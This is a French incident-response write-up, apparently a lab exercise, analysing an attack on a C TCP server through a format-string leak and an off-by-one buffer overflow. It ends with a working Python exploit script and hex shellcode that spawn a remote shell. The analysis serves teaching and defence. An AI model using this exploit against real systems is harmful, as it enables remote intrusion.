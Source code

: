 % Réponse à incident - Exploitation d’une vulnérabilité dans un serveur TCP/IP programmé en langage C
% Olivier Nachin & Thomas Girard
% 17/01/22

# Introduction

La société Pressoare a subi une attaque informatique : l'intégrité des données a été compromises, un déséquilibre financier a été repéré sur un des serveurs, et du trafic anormal a été détecté ! L'objectif de notre mission est de comprendre l'origine de l'attaque, la reproduire, identifier les vulnérabilités et émettre des recommendations.

# Analyse Réseaux

A l'aide de la commande *strings trace.pcap*, on repère rapidement du contenu anormal dans la trace réseau par exemple *chmod* ou bien */bin/sh*. Wireshark permet alors d'approfondir ces pistes :



On voit alors clairement les étapes suivi dans une de ses attaques. Il utilise tout d'abord la commande *ECHO %x% x%x%x %x* qui correspond à une attque "Format String" visant à afficher le haut de la pile. Le fait que cela ait abouti dans la trace réseau montre qu'il y a une première vulnérabilité dans le code qu'il faut approfondir (cf ci-dessous). Ensuite, l'attaquant utilise une payload qui lui permet d'obtenir un shell, d'où une deuxième vulnérabilité. L'attaquant liste ensuite

![attaque2](images/reseau_2.png)
*Suite de l'attaque précédente*


# Analyse de la payload
## Décomposition de la payload

Grâce à la trace réseau, nous avons donc pu récupérer la payload utilisée par l’attaquant.



* La payload commence par 64 octets de valeur "90", ce qui correspond au *toboggan de NOP*. L’attaquant souhaite que le fil d’exécution du programme du serveur arrive dans ce toboggan afin de sauter de NOP en NOP jusqu’au code permettant d’obtenir le shell.
* Ensuite, la payload continue avec 127 octets correspondant au code permettant d’obtenir un shell (nous allons détailler cette partie dans la suite).
* Puis, un padding de 9 "A" est ajouté afin d’obtenir exactement 200 octets depuis le début de la payload (de même, nous allons expliquer pourquoi il est important d’obtenir 200 octets exactement à cet endroit de la payload).
* Il y a ensuite 14 octets restants dont nous allons détailler le rôle par la suite.

## Analyse du code assembleur permettant d’obtenir un shell

Afin d’analyser la façon dont l’attaquant a réussi à ouvrir le shell, on désassemble le code permettant de l’obtenir.



* On commence par les instructions classiques jump/call/pop qui permettent d’écrire l’adresse de la chaîne de caractères "/bin/sh" dans le registre ebp (cette adresse sera utiliée par la suite au moment de l’appel système execve).
* On a ensuite une remise à 0 d’une partie des registres.
* On remarque ensuite un appel à *mmap2*, sûrement pour se réserver un segment en mémoire avec des permissions particulières.
* On a ensuite ce qui semble être un boucle for avec un appel système à *getppeername* afin probablement d’attacher le shell à la socket utilisée par l’attaquant.
* Enfin, on trouve bien l’appel système à *execve* avec la chaîne de caractère "/bin/sh" en paramètre afin de lancer le shell.


# Faille n° 1 : format string


# Faille n° 2 : buffer overflow

Après avoir récupéré une adresse de la stack grâce à la faille n°1 *format string*, l’attaquant a utilisé une deuxième faille dans le code C afin de pouvoir réaliser un buffer overflow.

Afin d’éviter justement les buffer overflows, les développeurs ont choisi de créer une fonction *sanitizeBuffer* qui permet de copier l’entrée utilisateur contenue dans *unsafeBuffer* dans un buffer limité à 200 caractères *safeBuffer* et en stoppant la copie au premier au premier caractère non-imprimable trouvé. Cependant, les développeurs se sont trompés dans l’écriture de leur code ce qui permet a permis à l’attaquant d’écrire plus de 200 caractères.
En effet, si l’attaquant rentre exactement 200 caractères suivis d’un retour à la ligne "\n", alors le code C va réaliser les actions suivantes :
* remplacement du "\n" (0a en hexadécimal) par "\0"
* calcul de strlen(unsafeBuffer), ici le résultat de ce calcul donne 200
* copie caractère par caractère de *unsafeBuffer* dans *safeBuffer* de l’indice 0 à l’indice 201 ! (cf capture d’écran ci-dessous) Un caractère de trop a donc été copié et donc l’attaquant peut déborder de *safeBuffer*. Ce caractère copié en trop est forcément un 0 (car le 201ième caractère est un "\n" qui a été remplacé précédemment par un "\0" et est copié dans la mémoire après *safeBuffer*.


La question est donc à présent de savoir exactement où ce 0 *en trop* a été copié. Avec gdb, en utilisant notamment la commande : *print &variable*, on peut reconstituer l’état de la stack au moment du déroulement de cette boucle for. On obtient alors le résultat suivant :

# Reproduction de l'attaque à l'aide d'un script

Nous avons reproduit l'attaque à l'aide d'un script python qui nous a permis d'ouvrir un shell. Voici notre code :

```python
#!/usr/bin/env python3
import binascii
import socket

charge_1 = '90909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090eb715d31c031db31c931d231ff31f6b02289c6b0c0b10166c1e10cb2034fcd8089c131ffb30289ca80c10431c066b87001fec3c602108939cd8039f875ed8b013c0275e789ca31c931c0b03fcd8041b03fcd8041b03fcd8031c0896d0889450c884507b00b89eb8d4d088d550ccd80b001cd80e88affffff2f62696e2f73684141414141414141410a0000000d000000'

HOST = '172.28.128.100'
PORT = 6000

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(b'ECHO %x % x%x%x %x \n')
    data_echo = s.recv(1024)
    print(data_echo)
    adresse = str(data_echo).split(" ")[-2] # on récupère la dernière adresse
    adresse_2 = int(adresse, 16) # on convertit l'hexa en decimal
    adresse_3 = int(adresse_2) - 10 # on retranche 10
    adresse_4 = hex(adresse_3) # on repasse en hexa
    milieu_ajout = adresse_4[-2:]
    charge_2 = charge_1+milieu_ajout
    fin_adresse = int(adresse[-2:], 16)- 4 # on convertit en decimal et on retranche 4
    charge_3 = charge_2 + hex(fin_adresse)[2:] + adresse_4[2:-2][-2:] + adresse_4[2:-2][-4:-2] + adresse_4[2:-2][0:2] + "0a"
    charge_4 = binascii.unhexlify(charge_3) #on ajoute les "/x"

    s.sendall(charge_4)
    s.sendall(b'ls \n') # on vérifie que le shell fonctionne
    data_reception = s.recv(1024)
    print(data_reception)
```

Voici ce que donne le lancement de ce code sur la machine Analyste :



# Conclusion

Finalement, nous avons réussi à comprendre les étapes utilisées par l'attaquant et les vulnérabilités qu'il a exploitées. Nous avons également pu reproduire l'attaque et émettre des recommandations pour qu'une telle attaque ne soit plus possible à l'avenir.

